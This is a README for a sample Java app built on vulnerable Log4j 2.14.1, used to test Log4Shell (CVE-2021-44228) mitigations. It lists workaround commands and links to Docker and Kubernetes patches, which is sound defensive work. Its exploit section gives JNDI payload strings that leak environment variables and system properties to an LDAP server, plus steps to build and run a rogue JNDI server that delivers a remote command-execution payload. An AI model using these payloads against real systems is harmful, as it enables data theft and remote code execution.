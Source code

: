 # Log4Shell Mitigation tester

This is an example application using Log4j 2.14.1 .

source code: [App.java](app/src/main/java/log4shell/mitigation/tester/App.java)

The purpose of this is to be able to test different mitigation approaches. The mitigation approaches are also mentioned in [Microsoft’s Response to CVE-2021-44228 Apache Log4j 2](https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/).

## Example usage

Examples are for a bash shell


build the app
```
./gradlew assemble
```

Run without workaround
```
java -jar app/build/libs/app-all.jar
```

Test some message lookup feature by passing a string on command line:
```
FOO='Hello ${env:USER}' java -jar app/build/libs/app-all.jar '${env:FOO}'
```

Test `-Dlog4j2.formatMsgNoLookups=true` system property workaround, https://twitter.com/brunoborges/status/1469186875608875011
```
java -Dlog4j2.formatMsgNoLookups=true -jar app/build/libs/app-all.jar
```

Test ``LOG4J_FORMAT_MSG_NO_LOOKUPS=true`` environment variable workaround, https://twitter.com/brunoborges/status/1469462412679991300
```
LOG4J_FORMAT_MSG_NO_LOOKUPS=true java -jar app/build/libs/app-all.jar
```

Test `JAVA_TOOL_OPTIONS=-Dlog4j.formatMsgNoLookups=true` environment variable workaround, https://twitter.com/brunoborges/status/1469426918550245377
```
JAVA_TOOL_OPTIONS=-Dlog4j.formatMsgNoLookups=true java -jar app/build/libs/app-all.jar
```

Test log4j2.component.properties in classpath workaround solution:
```
java -cp log4j2-formatMsgNoLookups/build/libs/log4j2-formatMsgNoLookups.jar:app/build/libs/app-all.jar log4shell.mitigation.tester.App
```

## Seeing is believing - exploit this sample app

When you run the app, you will see the vulnerability in action:
```bash
❯ java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.0.1/a?user=${env:USER}}'
[2021-12-12 10:57:07,216] [main] [log4shell.mitigation.tester.App] INFO noLookups false
[2021-12-12 10:57:07,218] [main] [log4shell.mitigation.tester.App] INFO Lookups are enabled! The application is vulnerable for Log4Shell! Example lookup USER=lari
2021-12-12 10:57:07,239 main WARN Error looking up JNDI resource [ldap://127.0.0.1/a?user=lari]. javax.naming.InvalidNameException: ldap://127.0.0.1/a?user=lari
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:92)
	at java.naming/javax.naming.InitialContext.lookup(InitialContext.java:409)
```

You can also debug the solution and place a break point in the vulnerable code which is 
https://github.com/apache/logging-log4j2/blob/dd18e9b21009055e226daf5b233c92b6a17934ca/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java#L119-L135

Set the debugger in class is `org.apache.logging.log4j.core.pattern.MessagePatternConverter` at line 128.

When the mitigation is in place, the debugger should never get in the code block. The LDAP call shouldn't get attempted either:

```bash
❯ LOG4J_FORMAT_MSG_NO_LOOKUPS=true java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.0.1/a?user=${env:USER}}'
[2021-12-12 10:59:15,589] [main] [log4shell.mitigation.tester.App] INFO noLookups true
[2021-12-12 10:59:15,590] [main] [log4shell.mitigation.tester.App] INFO Lookups are disabled. Example lookup USER=${env:USER}
[2021-12-12 10:59:15,591] [main] [log4shell.mitigation.tester.App] INFO Provided command line arguments are [${jndi:ldap://127.0.0.1/a?user=${env:USER}}]
```

### Exploiting with Rogue JNDI

in one terminal
```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
# build with PR https://github.com/veracode-research/rogue-jndi/pull/11 changes
git fetch origin pull/11/head
git checkout FETCH_HEAD
mvn package
# sample command is for Linux, remove `-c "zenity --progress --pulsate --text=You_are_hacked"` on other OSes or use any suitable RCE command
java -jar target/RogueJndi-1.1.jar -c "zenity --progress --pulsate --text=You_are_hacked"
```

in another terminal:
```
# demonstrate information leakage
java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.1.1:1389/user=${env:USER},vendor=${sys:java.vendor},javaversion=${sys:java.vm.version},os=${sys:os.version}}'
# demonstrate RCE by adding "-Dcom.sun.jndi.ldap.object.trustURLCodebase=true"
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.1.1:1389/o=reference}'
```


## Kubernetes / docker mitigation solutions for Log4Shell

It is necessary to mitigate Log4Shell immediately without waiting for a new software release. Here are some solutions for doing that quickly and effectively.

### Patching existing docker images with a thin overlay that sets LOG4J_FORMAT_MSG_NO_LOOKUPS=true env

This is a generic solution:
https://github.com/lhotari/Log4Shell-mitigation-Dockerfile-overlay

### Example of patching existing docker images with Log4j 2.15.0 jar files

This is not generic, example is from apache/pulsar:
https://github.com/lhotari/pulsar-docker-images-patch-CVE-2021-44228

### Patching k8s deployments with LOG4J_FORMAT_MSG_NO_LOOKUPS=true env

https://gist.github.com/brunoborges/9df576689b404aee70a8065210c77fb3


